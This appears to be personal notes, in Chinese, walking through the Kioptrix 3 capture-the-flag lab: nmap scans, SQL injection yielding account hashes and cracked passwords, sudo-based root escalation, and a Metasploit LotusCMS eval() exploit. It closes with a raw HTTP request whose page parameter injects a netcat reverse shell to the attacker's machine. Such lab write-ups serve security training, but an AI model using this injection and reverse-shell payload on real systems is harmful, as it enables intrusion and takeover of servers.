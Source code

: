 # 1. kioptrix11-24

## 1.1. 信息收集



### 1. nmap存活主机扫描

~~~shell
# Nmap 7.92 scan initiated Sat May  7 11:07:22 2022 as: nmap -sn -oN pingscan.text 192.168.42.0/24
Nmap scan report for 192.168.42.1
Host is up (0.0010s latency).
MAC Address: A6:5E:60:2C:96:68 (Unknown)
Nmap scan report for 192.168.42.2
Host is up (0.0010s latency).
MAC Address: 00:50:56:FE:66:AF (VMware)
Nmap scan report for kioptrix3.com (192.168.42.134)
Host is up (0.0017s latency).
MAC Address: 00:0C:29:10:00:A9 (VMware)
Nmap scan report for 192.168.42.254
Host is up (0.00085s latency).
MAC Address: 00:50:56:E5:AF:8D (VMware)
Nmap scan report for 192.168.42.132
Host is up.
# Nmap done at Sat May  7 11:07:26 2022 -- 256 IP addresses (5 hosts up) scanned in 4.02 seconds
~~~

### 2. 端口扫描、指纹识别

~~~shell
# Nmap 7.92 scan initiated Sat May  7 11:13:28 2022 as: nmap -n -v -sV -A -sC -T5 -p- -Pn -oN portscan.text 192.168.42.134
Nmap scan report for 192.168.42.134
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-title: Ligoat Security - Got Goat? Security ...
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: 99EFC00391F142252888403BB1C196D2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
MAC Address: 00:0C:29:10:00:A9 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Uptime guess: 0.139 days (since Sat May  7 07:53:44 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=204 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.29 ms 192.168.42.134

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May  7 11:13:51 2022 -- 1 IP address (1 host up) scanned in 23.31 seconds
~~~

> 只开放了两个端口，80和22

访问网页，找到一个sql注入点

<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/1.png" alt="image-20220508004440592" style="zoom: 33%;" />



<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/2.png" alt="image-20220508004956468" style="zoom: 33%;" />



<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/3.png" alt="image-20220508005525004" style="zoom: 33%;" />

<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/4.png" alt="image-20220508005718109" style="zoom: 33%;" />

> 最终拿到几个账号：
>
> 1;dreg;0d3eccfb887aabd50f243b3f155c0f85,
> 2;loneferret;5badcaf789d3d1d09794d8f021f40f0e
> 1:admin:n0t7t1k4
>
> 

<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/5.png" alt="image-20220508010216610" style="zoom: 33%;" />

<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/6.png" alt="image-20220508011141390" style="zoom: 33%;" />

<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/7.png" alt="image-20220508012251340" style="zoom: 33%;" />



## 1.2. 过程

### 1. 思路一

> md5解密：
>
> |  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |    Mast3r
> |  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |   starwars

<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/8.png" alt="image-20220508012251340" style="zoom: 33%;" />





> 两个账号都可以ssh登录成功

~~~shell
dreg@Kioptrix3:~$ cd ..
-rbash: cd: restricted
dreg@Kioptrix3:~$ 
~~~

~~~shell
loneferret@Kioptrix3:~$ ls -al
total 68
drwxr-xr-x 3 loneferret loneferret  4096 2022-05-07 13:14 .
drwxr-xr-x 5 root       root        4096 2011-04-16 07:54 ..
-rw-r--r-- 1 loneferret users        107 2022-05-07 21:14 .bash_history
-rw-r--r-- 1 loneferret loneferret   220 2011-04-11 17:00 .bash_logout
-rw-r--r-- 1 loneferret loneferret  2940 2011-04-11 17:00 .bashrc
-rwxrwxr-x 1 root       root       26275 2011-01-12 10:45 checksec.sh
-rw-r--r-- 1 root       root         224 2011-04-16 08:51 CompanyPolicy.README
-rw-r--r-- 1 root       root        1692 2022-05-07 20:18 .htcfg2
-rw------- 1 root       root          15 2011-04-15 21:21 .nano_history
-rw-r--r-- 1 loneferret loneferret   586 2011-04-11 17:00 .profile
drwx------ 2 loneferret loneferret  4096 2011-04-14 11:05 .ssh
-rw-r--r-- 1 loneferret loneferret     0 2011-04-11 18:00 .sudo_as_admin_successful
loneferret@Kioptrix3:~$ cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
loneferret@Kioptrix3:~$ sudo ht
Error opening terminal: xterm-256color.
~~~

> Google "Error opening terminal: xterm-256color."
>
> 解决办法是：export TERM=xterm
>
> 然后再:sudo ht

<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/9.png" alt="image-20220508013658408" style="zoom:25%;" />



<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/image-20220508013939288.png" alt="image-20220508013939288" style="zoom:25%;" />



~~~bash
loneferret@Kioptrix3:~$ sudo /bin/bash
root@Kioptrix3:~# whoami
root
root@Kioptrix3:~# 
~~~

### 2. 思路二 lotusCMS

<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/10.png" alt="image-20220508014333575" style="zoom:33%;" />

~~~shell
msf6 > search lotusCMS

Matching Modules
================

   #  Name                              Disclosure Date  Rank       Check  Description
   -  ----                              ---------------  ----       -----  -----------
   0  exploit/multi/http/lcms_php_exec  2011-03-03       excellent  Yes    LotusCMS 3.0 eval() Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/lcms_php_exec

use exploit/multi/http/lcms_php_exec
set payload /php/reverse_php
msf6 exploit(multi/http/lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting         Required  Description
   ----     ---------------         --------  -----------
   Proxies  http:192.168.42.1:8888  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.42.134          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80                      yes       The target port (TCP)
   SSL      false                   no        Negotiate SSL/TLS for outgoing connections
   URI      /                       yes       URI
   VHOST                            no        HTTP server virtual host


Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.42.132   yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


msf6 exploit(multi/http/lcms_php_exec) > run

[*] Started reverse TCP handler on 192.168.42.132:5555
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Command shell session 5 opened (192.168.42.132:5555 -> 192.168.42.134:59440 ) at 2022-05-08 02:28:03 -0400

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

> 但是我不推荐用这种无脑方式，还是推荐burpsuite方式
>
> https://vk9-sec.com/lotuscms-3-0-eval-remote-command-execution/
>
> ~~~shell
> POST /index.php HTTP/1.1
> Host: kioptrix3.com
> Upgrade-Insecure-Requests: 1
> User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
> Accept-Encoding: gzip, deflate
> Accept-Language: zh-CN,zh;q=0.9
> Cookie: __gsas=ID=b24ce1a6b7306995:T=1651919057:S=ALNI_MazTELVzPFvH_OPLm9MJsanYZCmpA; PHPSESSID=06d54e4ee4e86963349df36a0b47cd42
> Connection: close
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 61
> 
> page=index');${system("nc -e /bin/bash 192.168.42.132 53")};#
> ~~~



<img src="/Users/tiantianzhang/Documents/typora笔记/自我学习笔记/未命名.assets/11.png" alt="image-20220508145721838" style="zoom: 33%;" />











## 1.3. 未解决问题





## 1.4. 说明

